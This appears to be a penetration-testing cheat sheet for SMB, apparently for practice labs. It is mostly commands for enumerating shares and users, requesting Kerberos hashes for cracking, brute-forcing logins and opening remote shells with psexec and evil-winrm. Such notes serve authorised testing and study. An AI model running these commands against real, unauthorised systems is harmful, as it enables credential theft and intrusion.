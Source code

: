 # Port 139/445 - SMB
## Methodology
```bash
With No Creds
    nbtscan {IP}
    smbmap -H {IP}
    smbmap -H {IP} -u null -p null
    smbclient -N -L //{IP}
    smbclient -N //{IP}/ --option="client min protocol"=LANMAN1
    rpcclient {IP}
    rpcclient -U "" {IP}
    crackmapexec smb {IP}
    crackmapexec smb {IP} --pass-pol -u "" -p ""
    GetADUsers.py -dc-ip {IP} "{Domain_Name}/" -all
    GetNPUsers.py -dc-ip {IP} -request "{Domain_Name}/" -format hashcat
    GetUserSPNs.py -dc-ip {IP} -request "{Domain_Name}/"
    getArch.py -target {IP}

With Creds
    smbmap -H {IP} -u {Username} -p {Password}
    smbclient -h "\\\\{IP}\\\" -U {Domain_Name} -W {Username} -l {IP}
    smbclient -h "\\\\{IP}\\\" -U {Domain_Name} -W {Username} -l {IP} --pw-nt-hash `hash`
    crackmapexec smb {IP} -u {Username} -p {Password} --shares
    GetADUsers.py {Domain_Name}/{Username}:{Password} -all
    GetNPUsers.py {Domain_Name}/{Username}:{Password} -request -format hashcat
    GetUserSPNs.py {Domain_Name}/{Username}:{Password} -request
```

## Enumerate All

```bash
enum4linux -a 10.10.10.x
```
## Check for vulnerabilities

```bash
ls /usr/share/nmap/scripts/ | grep smb | grep vuln
sudo nmap --script smb-vuln* -p 139,445 10.10.10.x
sudo nmap --script=smb-check-vulns.nse <targetip> -p445
```

## List Open Shares

```bash
smbclient -L 10.10.10.x
smbmap -H 10.10.10.x
smbmap -H 10.10.10.x -u anonymous
crackmapexec smb 10.10.10.x --shares -u '' -p ''
```

## List Files in share

```bash
smbmap -H 10.10.10.x -u anonymous -r --depth 5
smbmap -H 10.10.10.182 -u s.smith -p myp4ss -r --depth 5
```

## Mount a share to browse locally

```bash
mount -t cifs //10.10.10.x/Backups /mnt/smb
```

## Connect to SMB share

```bash
smbclient //10.10.10.x/ -U
smbclient //10.10.10.x/[SHARE] -U ''
```

## Get password policy

```bash
crackmapexec smb 10.10.10.x --pass-pol
```

## Bruteforce SMB Login

```bash
crackmapexec smb 10.10.10.172 -u users.txt -p /usr/share/wordlists/rockyou.txt
hydra -t 1 -V -f -l {Username} -P {Big_Passwordlist} {IP} smb
```

## Download all files from share

```bash
smbget -R smb://192.168.100.120/Office
```

## WinRM

```bash
crackmapexec winrm 192.168.100.55 -u /home/kali/users.txt -p 'secretpassword'
# Got pwned? Use PSEXEC or WINRM to login!

# PSEXEC
sudo python2 psexec.py megacorp.org/bob:'secretpassword'@192.168.100.55

# WinRM
evil-winrm -i 192.168.100.55 -u bob -p 'secretpassword'
```